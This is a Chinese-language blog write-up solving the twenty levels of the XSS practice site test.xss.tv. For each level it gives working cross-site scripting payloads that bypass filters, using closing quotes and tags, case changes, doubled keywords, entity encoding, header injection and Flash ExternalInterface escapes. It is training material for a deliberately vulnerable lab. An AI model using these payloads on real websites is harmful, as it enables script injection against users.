

某位大佬天天说我不写博客，下面就随便写写寒假见闻之一xss，有错误请指出Orz
一个很有趣的xss平台 ：http://test.xss.tv/
level 1
第一关很简单，可以看到url上的name参数会随着输入值的变化反映到页面上，最简单的payoad：
1 | ?name=<img src=@ onerror=alert(1) /> |
level 2
第二关输入的值在input标签里面，因此先闭合标签再输入payload
1 | "><img src=@ onerror=alert(1) /> |
level 3
在第三关的输入框里再输入上述payload是不成功的，通过查看源代码我们可以发现输入值是用’xxx’单引号引起来的，因此我们也要用单引号闭合，并且我们还可以看到<>被转码了，因此输入以下payload：
1 | ' onmouseover='alert(1) |
level 4
这题跟上题一样，只是单引号变成了双引号
1 | " onmouseover="alert(1) |
level 5
输入上述payload，发现不成功，发现on被转换成了o_n，输入
1 | "><script>alert(1);</script> |
1 | "><a href='javascript:alert(1)'> |
level 6
继续输入上述payload，发现href也被转换成了hr_ef，使用大小写绕过
1 | "><a hRef='javascript:alert(1)'> |
level 7
重复上述的payload，发现on href script都被替换成了空， 尝试双写绕过
1 | " oonnmouseover="alert(1) |
level 8
经过测试发现javascript被替换成了javascr_ipt，data也被替换成了da_ta，最后使用html自解码机制绕过
1 | javascript:alert(1) |
提交之后需要点击“友情链接”跳转
level 9
随便输点东西，重复上述payload，提示链接不合法，于是尝试输入一个正常的http开头的网址：http://test.xss.tv/ ，发现成功了，尝试一下https开头的正常的网址https://www.baidu.com ，发现同样是不合法的，于是猜测得包含http，经过测试，payload中需包含http://才是合法链接，于是尝试输入payload：javascript:alert(1)//http:// ，发现javascript依旧被替换了，并且大小写不敏感，于是可使用上述的html自解码机制绕过，最终payload如下
1 | javascript:alert(1)//http:// |
同样需要点击触发
level 10
查看源代码发现有三个隐藏的输入框
经过测试，发现只有t_sort可控
1 | level10.php?keyword=aaa&t_sort=aaa |
由于hidden特性导致触发不了xss，因此我们可以先让它输出一个标准的输入框
1 | level10.php?keyword=aaa&t_sort=" type="text" |
最终payload：
1 | level10.php?keyword=aaa&t_sort=" onmouseover=alert(1) type="text" |
level 11
查看源代码发现相比上一题有多了个t_ref的隐藏框
尝试修改，发现不成功，ref联想到请求头，查看请求头，发现Referer的内容跟t_ref的value是一样
于是尝试抓包修改，payload如下：
1 | " onmouseover=alert(1) type="text" |
level 12
这题跟上题一样，插入点不一样，这题的t_ref换成了t_ua，可以联想到user-agent，
level 13
这题t_ua又换成了t_cook，即cookie
level 14
这题似乎没有了，点进去也是404，据说是关图片exif的xss，就不说了
level 15
查看源代码可以发现有一个可疑的参数ng-include，一开始不知道什么意思，去百度了一下，发现它可以包含html文件，在引用其它页面时需要用一个单引号括起来，并且它有一个src属性，包含的文件还不能跨域
但是我不知道怎么传进去，只知道它有一个src属性，于是碰碰运气试一试，成功了
接下来我们就可以利用了，因为不能跨域，因此我们可以尝试包含一下第一关的页面

第一关页面都出来了，那我们直接拿第一关的payload就可以过关了
1 | level15.php?src='level1.php?name=<img src=@ onerror=alert(1) />' |
level 16
这一关的空格、斜杠（/）都被替换成了 ，我们可以用%0a绕过，payload如下：
1 | level16.php?keyword=<img%0asrc=@%0aonerror=alert(1)> |
level 17
看到xsf以为是flash xss，去研究了一下，但是没找到入口，于是尝试了一下arg01和arg02这两个参数，发现只要在arg02后面加上payload就可以了
payload如下：
1 | level17.php?arg01=a&arg02=b onmouseover=alert(1) |
level 18
同level 17的payload一样
level 19
flash xss，首先下载文件使用JPEXS进行分析，发现是actionscript 2.0，在flash中actionscript2.0可以使用getURL来执行javascript，定位getURL函数
1 | sIFR.menuItems.push(new ContextMenuItem("Follow link",function() |
再追踪sIFR的内容
1 | if(_loc4_ == "undefined" || _loc4_ == "") |
发现当getURL打开时，version参数可以传入_loc4_中，即sIFR的内容，但是getURL只在内容为link时打开，因此定位contentIsLink函数：
1 | function contentIsLink() |
因此构造如下payload：
1 | level19.php?arg01=version&arg02=<a href="javascript:alert(1)">xss</a> |
点击图中的xss即可触发
level 20
下载swf文件进行分析，发现是zeroclipboard.swf
zeroclipboard.swf从url中获取参数，传给调用的 ExternalInterface.call函数，实际上浏览器的执行过程为：
1 | try {__flash__toXML(ZeroClipboard.dispatch("id")); } catch (e) { ""; } |
当注入的js含有 “ 符号，会被转义为\“ ，但是由于没有过滤参数中的反斜杠（\），因此如果注入\“，就会被转义\\“，这样 “ 符号就变得有意义了，也就是可以闭合之前的双引号，从而构造出完全独立的javascript，从而导致xss，payload如下：
1 | level20.php?arg01=id&arg02=\%22));}catch(e){alert(1);}//%26width=500%26height=500 |
参考书籍：《Web前端黑客技术揭秘》